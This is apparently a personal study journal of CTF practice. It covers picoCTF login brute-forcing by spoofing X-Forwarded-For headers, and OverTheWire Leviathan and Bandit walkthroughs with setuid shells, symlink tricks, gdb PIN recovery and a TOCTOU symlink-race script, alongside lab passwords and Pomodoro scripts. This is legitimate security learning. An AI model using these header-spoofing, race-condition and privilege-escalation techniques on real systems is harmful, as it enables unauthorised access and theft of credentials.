  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.15
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:27 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.16
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:28 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.17
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:29 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.18
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:30 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.19
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
100    56    0     0  100    56      0    238 --:--:-- --:--:-- --:--:--   238< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:30 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}
#+end_example

picoCTF{xff_byp4ss_brut3_1cc3b76e}

** Seinfeld Checkmark

[[file:images/2025-10-20_seinfeld.jpeg]]

* [2025-10-19 Sun]

Worked on more challenges today.
Made it a point of creating /tools/ in Emacs to make it easier.
Weakest link is emotional regulation: I get anxious too easy, too fast, and this really clouds my thinking, and makes it more difficult to work on ergonomy and posture.

** feat: add Seinfeld Checkmark 

[[file:images/2025-10-19_seinfeld.jpeg]]

* [2025-10-18 Sat]

Took a step back, and worked on fundamentals, and also cleared my mind.
It paid off: could solve yesterday's "humbling" challenge and some more today.

** Seinfeld Checkmark

[[file:images/2025-10-18_seinfeld.jpeg]]

* [2025-10-17 Fri]

Tough day today.

Took a beating on two CTFs; one expected, and the other humbling...

** Seinfeld Checkmark

[[file:images/2025-10-17_seinfeld.jpeg]]

* [2025-10-16 Thu]

** CSS: we got assignment!

- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/01-margin-and-padding-1][01-margin-and-padding-1]]
- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/02-margin-and-padding-2][02-margin-and-padding-2]]

** Pomodoro

I may have spent more time than I should have "sharpening this axe"...
Anyway, need a command-line Pomodoro?

*** ~pomodoro~

#+begin_src shell
#!/bin/bash

ME=$(basename $0)

if [ $# -eq 1 ] && ( [ $1 == "-h" ] || [ $1 == "--help" ] )
then
    echo "Usage: $ME [POPUP_NOTIFICATION [OSD_COUNTDOWN [TITLE]]]

POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).
TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.

Boolean values should be \"true\" or \"false\"."
    exit 0
fi

[ $# -ge 1 ] && POPUP_NOTIFICATION=$1 || POPUP_NOTIFICATION=false
[ $# -ge 2 ] && OSD_COUNTDOWN=$2 || OSD_COUNTDOWN=true
[ $# -ge 3 ] && TITLE=$3 || TITLE="Pomodoro"

BIG_INTERVAL="25m"
SHORT_INTERVAL="5m"

TIMER_ARGS="$TITLE $POPUP_NOTIFICATION $OSD_COUNTDOWN"
while [ true ]
do
    timer $BIG_INTERVAL $TIMER_ARGS
    timer $SHORT_INTERVAL $TIMER_ARGS
done
#+end_src

*** ~timer~

#+begin_src shell
#!/bin/bash

ME=$(basename $0)

USAGE="Usage: $ME TIME_AMOUNT [TITLE [POPUP_NOTIFICATION [OSD_COUNTDOWN]]]

TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.
POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).

Boolean values should be \"true\" or \"false\"."

if [ $1 == "-h" ] || [ $1 == "--help" ]
then
    echo "$USAGE"
    exit 0
fi

die () {
    echo >&2 "$@"
    exit 1
}

[ $# -ge 1 ] && TIME=$1 || die $USAGE
[ $# -ge 2 ] && TITLE=$2 || TITLE="Timer"
[ $# -ge 3 ] && POPUP_NOTIFICATION=$3
[ $# -ge 4 ] && OSD_COUNTDOWN=$4

OSD_CAT_FLAGS='--pos=top --align=right --delay=60 --shadow=3 --outline=0 --outlinecolour=black --color=cyan --font=-misc-fixed-medium-r-normal--75-*-*-*-*-*-*'

# Determine the unit for the time (minutes or seconds, default to minutes)
UNIT=${TIME: -1}
if [[ $UNIT = @(m|s) ]];
then
    DIGITS=${TIME::-1}
else
    UNIT=m
    DIGITS=$TIME
fi

for TIC in $(seq ${DIGITS} -1 1);
do
    # Display remaining time on the terminal
    echo Remaining: $TIC$UNIT

    # Display remaining time via OSD
    if $OSD_COUNTDOWN
    then
        echo "${TIC}${UNIT}" | osd_cat $OSD_CAT_FLAGS &
    fi

    sleep 1$UNIT
done

# Pop-up notification at the end of the timer
if $POPUP_NOTIFICATION
then
    notify-send --urgency=critical \
                --expire-time=0 \
                "$TITLE" \
                "Time ($TIME) is up."
fi

# Give an audible cue that the timer is done
ding
#+end_src

*** ~ding~

#+begin_src shell
#!/bin/bash

mocp --play /usr/share/sounds/freedesktop/stereo/complete.oga
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-16_seinfeld.jpeg]]

* [2025-10-15 Wed]

** CSS

Studied the Box Model.
This time with exercises: much better.

** CTF

Back to overthewire.
picoCTF helped.
It fealt really easier today.
picoCTF /teaches/ things like how to use gdb.
I could think of many different approaches today because of that.

Finished Leviathan \o/
Loved the challenges!

*** overthewire.org

**** 3

f0n8h2iWLP

- setuid binary in home folder
- ~ltrace~ showed a call to ~strcmp~ with the payload
- input payload gives setuid shell

#+begin_example
leviathan3@leviathan:~$ ltrace ./level3 
fgets(Enter the password> snlprintf
"snlprintf\n", 256, 0xf7fae5c0)                                                                               = 0xffffd24c
strcmp("snlprintf\n", "snlprintf\n")                                                                                = 0
puts("[You've got shell]!"[You've got shell]!

leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ id
uid=12004(leviathan4) gid=12003(leviathan3) groups=12003(leviathan3)
$ cat /etc/leviathan_pass/leviathan4
#+end_example

**** 4

WG1egElCvO

#+begin_example
leviathan4@leviathan:~$ ll
total 24
drwxr-xr-x   3 root root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root       3851 Oct 14 09:19 .bashrc
-rw-r--r--   1 root root        807 Mar 31  2024 .profile
dr-xr-x---   2 root leviathan4 4096 Oct 14 09:27 .trash/
leviathan4@leviathan:~$ find .trash/
.trash/
.trash/bin
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ll
total 24
dr-xr-x--- 2 root       leviathan4  4096 Oct 14 09:27 ./
drwxr-xr-x 3 root       root        4096 Oct 14 09:27 ../
-r-sr-x--- 1 leviathan5 leviathan4 14940 Oct 14 09:27 bin*
leviathan4@leviathan:~/.trash$ file bin
bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=52e379ac2e364243895250cb84038a8bf5d3e4e5, for GNU/Linux 3.2.0, not stripped
leviathan4@leviathan:~/.trash$ ./bin
00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010 
#+end_example

There's a binary that prints a binary sequence.
Converted to ASCII, it give the next password.

**** 5

0dyxT7F4QD

There is a setuid binary in the home folder.

#+begin_example
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
#+end_example

It wants a file.

#+begin_example
leviathan5@leviathan:~$ echo "abcdefg" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
abcdefg
#+end_example

It spills out that file's contents.

#+begin_example
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
szo7HDB88w
#+end_example

**** 6

szo7HDB88w

***** DONE ~strings~ in the binary?  No

***** Can I use gdb to see the pin code?

#+begin_src shell
leviathan6@leviathan:~$ gdb --args ./leviathan6 1234
#+end_src

After ~disassemble main~, I could see there's a comparison followed by ~jne~.

#+begin_example
=> 0x0804921a <+84>:    cmp    %eax,-0xc(%ebp)
   0x0804921d <+87>:    jne    0x804924a <main+132>
#+end_example

Maybe it's here they're testing the input for equality.

Examining the registers

#+begin_example
(gdb) info registers
eax            0x4d2               1234
ebp            0xffffd368          0xffffd368
#+end_example

- ~eax~ has the input
- ~ebp~ has a memory address
  - the comparison offsets that address by ~0xc~


Examining the contents of that piece of memory:

#+begin_example
(gdb) x $ebp-0xc
0xffffd35c:     0x00001bd3
#+end_example

~0x1bd3~ == 7123

#+begin_example
leviathan6@leviathan:~$ ./leviathan6 7123
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)
$ cat /etc/leviathan_pass/leviathan7
qEs5Io5yM8
#+end_example

**** 7
qEs5Io5yM8

#+begin_example
leviathan7@leviathan:~$ ll
total 24
drwxr-xr-x   2 root       root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root       root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root       3851 Oct 14 09:19 .bashrc
-r--r-----   1 leviathan7 leviathan7  178 Oct 14 09:27 CONGRATULATIONS
-rw-r--r--   1 root       root        807 Mar 31  2024 .profile
#+end_example

** Seinfeld Checkmark

[[file:images/2025-10-15_seinfeld.jpeg]]

* [2025-10-14 Tue]

The slope got steep at overthewire.org.
Went to picoCTF for some structured intro.
Today I read the Primer and worked on some playlists:
- The Beginner's Guide to the picoGym: 25/25
- Cryptography and picoGym Learning Intro 1/15
- Low Level Binary Intro 38/46
- Forensics in CTF's 6/17
- Python in CTF's 13/19
- Vault Door Series 1/8
- Sleuthkit Series 2/2
- PW Crack Series 5/5

** Seinfeld Checkmark

[[file:images/2025-10-14_seinfeld.jpeg]]

* [2025-10-13 Mon]

Some [[https://overthewire.org/][bit scrubbing]] (these last days) and today!

** Leviathan

*** Intro

#+begin_quote
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on

leviathan.labs.overthewire.org through SSH on port 2223.

To login to the first level use:

Username: leviathan0
Password: leviathan0

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.
#+end_quote

*** Functions

**** Automatically assemble SSH command from given user and password (C-. C-.)

#+begin_src elisp :results none
(defun hack-ctf-overthewire-dot-org-leviathan-ssh-command
    (arg user password)
  "Read USER and PASSWORD then return complete ssh command.
When ARG in non-nil do not use comman `sshpass' to automatically
send PASSWORD to `ssh'.  Apparently the first connection must be
established the old way."
  (interactive
   (list
    current-prefix-arg
    (read-string "user: "
                 "leviathan" ;; challenge's prefix
                 hack-ctf-user-history)
    (read-string "password: " nil
                 hack-ctf-password-history)))
  (let* ((challenge-subdomain "leviathan")
         (challenge-port "2223")
         (url (concat challenge-subdomain ".labs.overthewire.org"))
         (ssh-command (concat
                       (unless arg (concat "sshpass -p " password " "))
                       "ssh " url
                       " -p " challenge-port
                       " -l " user)))
    (kill-new ssh-command)
    (message "hack-ctf: ssh command copied to clipboard")
    (sleep-for 2)
    (if (and arg (yes-or-no-p "copy password to clipboard now?"))
        (kill-new password))))
(keymap-local-set "C-. C-."
                  'hack-ctf-overthewire-dot-org-leviathan-ssh-command)
#+end_src

*** 0 (I /have/ the password for leviathan0 and /want/ the one for leviathan1)
leviathan0

#+begin_example
leviathan0@leviathan:~/.backup$ cat bookmarks.html
#+end_example

#+begin_example
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
#+end_example

*** 1

3QJ3TgzHDq

#+begin_example
leviathan1@leviathan:~$ ll
total 36
drwxr-xr-x   2 root       root        4096 Aug 15 13:17 ./
drwxr-xr-x 150 root       root        4096 Aug 15 13:18 ../
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Aug 15 13:09 .bashrc
-r-sr-x---   1 leviathan2 leviathan1 15084 Aug 15 13:17 check*
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
#+end_example

#+begin_example
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$
$ cat /etc/leviathan_pass/leviathan2
cat: /etc/leviathan_pass/leviathan2: Permission denied
$ whoami
leviathan1
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ pwd
/home/leviathan1
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
#+end_example

If I run it without ltrace, it does not drop privileges.

#+begin_example
leviathan1@leviathan:~$ ltrace ./check <------------------------------------------------------------------------------------------------------------- WITH LTRACE
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1) <------------------------------------------------------------------------------- DROPPED PRIVILEGES
$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd474, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
#+end_example

*** 2

NsN1HwFoyN

**** Poke

***** Successful execution

#+begin_example
leviathan2@leviathan:~$ ltrace ./printfile .profile 
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
#+end_example

***** Order of tests and calls

Previous one:

#+begin_example
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
#+end_example

This one:

#+begin_example
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
#+end_example

**** DONE Does it print the password file without tracing?  No

#+begin_example
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3 
You cant have that file...
#+end_example

**** DONE Does it get ~cat~ from PATH?  No

#+begin_example
leviathan2@leviathan:~$ export PATH=""
leviathan2@leviathan:~$ ./printfile .profile 
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
#+end_example
**** DONE Printar link mutante.  SOLVED
#+begin_example
#!/bin/bash


LEV=/etc/leviathan_pass/leviathan
LEV2=${LEV}2
LEV3=${LEV}3
L=/tmp/chaves-L
PRINTFILE=/home/leviathan2/printfile

ln -sf $LEV2 $L
$PRINTFILE $L &
ln -sf $LEV3
#+end_example

#+begin_example
leviathan2@leviathan:~$ vi /tmp/chaves.sh

---

#!/bin/bash

ln -sf /etc/leviathan_pass/leviathan2 /tmp/chaves-L
/home/leviathan2/printfile /tmp/chaves-L &
ln -sf /etc/leviathan_pass/leviathan3 /tmp/chaves-L

---

leviathan2@leviathan:~$ /tmp/chaves.sh
leviathan2@leviathan:~$ f0n8h2iWLP
#+end_example
**** ChatGPT comments

[[https://chatgpt.com/share/68ed9138-3f28-8006-ac1e-835908865878][ChatGPT]]

***** More robust TOCTOU script

#+begin_example
#!/bin/bash
# deterministic TOCTOU flipper for CTF practice only

GOOD="/home/leviathan2/.profile"   # a file RUID can read (replace with real file)
SECRET="/etc/leviathan_pass/leviathan3" # the secret you want printed
LINK="/tmp/chaves-L"
BINARY="/home/leviathan2/printfile"     # the setuid binary that does: check ACCESS then exec cat LINK

# make sure the link starts pointing to the readable file
ln -sf "$GOOD" "$LINK"

# start the target program in the background and capture its PID
"$BINARY" "$LINK" &
TARGET_PID=$!

# while the target is still alive, keep flipping the symlink
while kill -0 "$TARGET_PID" 2>/dev/null; do
  ln -sf "$GOOD" "$LINK"
  ln -sf "$SECRET" "$LINK"
done

# wait for the target to finish and print exit status
wait "$TARGET_PID"
echo "target exited with $?"
#+end_example


#+begin_example
leviathan2@leviathan:~$ /tmp/chaves.sh
f0n8h2iWLP
target exited with 0
#+end_example

***** Correct program design (how this should be prevented)

A secure program that needs to both check a user’s rights and open/use a file under another UID must avoid TOCTOU by not using separate pathname checks. Secure patterns include:

Open then verify using the opened descriptor

fd = open(path, O_RDONLY|O_NOFOLLOW);

fstat(fd, &st); Verify ownership/permissions on fd (not on path). Use fchmod/fchown/check st fields as needed. Because operations act on the already-opened descriptor, the target cannot be swapped by a symlink after open.

Use file-descriptor-based operations instead of re-resolving the pathname later (fexecve / run with fd or read from fd directly). That prevents lookup at time-of-use.

Avoid access() for security checks, because it checks current real/effective permissions against the filename and is vulnerable to TOCTOU. If the program needs to verify permissions, open the file (with the minimum privileges) and operate on the returned descriptor.

Drop privileges safely: if the program must switch to EUID to read something privileged, handle UID transitions carefully:

Temporarily set effective UID to the one that should do the check, open/lock the file descriptor, then set EUID to the other identity and use the already-open FD.

Use O_NOFOLLOW to prevent symlink abuse where appropriate.

Use kernel-level protections if available: openat2() with RESOLVE_NO_SYMLINKS (newer kernels) or seccomp / file capabilities to narrow attack surface.

In short: do the check and the use on the same resolved kernel object (the same FD), and do not re-resolve the pathname.

*** 3

f0n8h2iWLP

*** Seinfeld Checkmark

[[file:images/2025-10-13_seinfeld.jpeg]]

** Bandit

*** 0
ZjLjTmM6FvvyRnrb2rfNWOZOTa6ip5If

*** 1
263JGJPfgU6LtdEvgfWU1XP5yac29mFx

*** 2
MNk8KNH3Usiio41PRUEoDFPqfxLPlSmx

*** 3
2WmrDFRmJIq3IPxneAaMGhap0pFhF3NJ

*** 4
4oQYVPkxZOOEOO5pTW81FB8j8lxXGUQw

*** 5
Preciso achar um arquivo:
- human-readable
- 1033 bytes in size
- not executable


Será que o comando ~find~ dá isso?

#+begin_src bash
find . -type f -size 1033c -exec cat {} +
#+end_src

HWasnPhtq9AVKe0dmk45nxy20cvUa6EG

*** 6

file that:

    - owned by user bandit7
    - owned by group bandit6
    - 33 bytes in size

#+begin_src shell
find / 2>/dev/null -user bandit7 -group bandit6 -size 33c -exec cat {} \;
#+end_src

morbNTDkSW6jIlUc0ymOdMaLnOlFVAaj

*** 7

dfwvzFQi4mU0wfNbFOe9RoWskMLg7eEc

*** 8
4CKMh1JI91bUIZZPXDqGanal4xvAg0JM

*** 9

~strings data.txt~

FGUW5ilLVJrxX9kMYMmlN4MgbpfMiqey

*** 10

Nesse tem uma string codificada em base64.

#+begin_src shell
base64 -d data.txt
#+end_src

dtR173fZKb0RRsDFSGsg2RWnpNVj3qRr

*** 11

Nesse rotacionaram as letras em 13 posições.

Essa é uma cifra conhecida já, a tal da ROT13.
26 letras no falnalabeto: f == f^{-1}.
ROT13 é sua própria inversa.

#+begin_src shell
tr 'A-Za-z' 'N-ZA-Mn-za-m' < data.txt
#+end_src

7x16WNeHIi5YkIhWsfFIqoognUTyj9Q4

*** 12

Agora brotou um hexdump em plain text.
They tell it's a file that was compressed multiple times.

I need to get the file that generated that hexdump.
This can be done with:

#+begin_src shell
xxd -r data.txt
#+end_src

Aí foi uma cascata de uncompressing in several formats (bz2, gz, tar).

FO5dwFsc0cbaIiH0h8J2eUks2vdTDwAn

*** 13

#+begin_quote
The password for the next level is stored in /etc/bandit_pass/bandit14 and can only be read by user bandit14.

For this level, you don’t get the next password, but you get a private SSH key that can be used to log into the next level.

Note: localhost is a hostname that refers to the machine you are working on
#+end_quote

1. I copied the contents of the bandit14's private key that was in the home directory.
2. Then I renamed it to ~id_rsa~.
3. Then

#+begin_src shell
ssh bandit.labs.overthewire.org -p 2220 -i ~/.ssh/id_rsa_overthewire.org-bandit14-private-key -l bandit14
#+end_src

*** 14

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30000 on localhost.
#+end_quote

I got the pass from the folder mentioned in the previous Bandit:
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS

I want to send that string (those bytes) to localhost on port 30000.

After readin man telnet.

#+begin_src shell
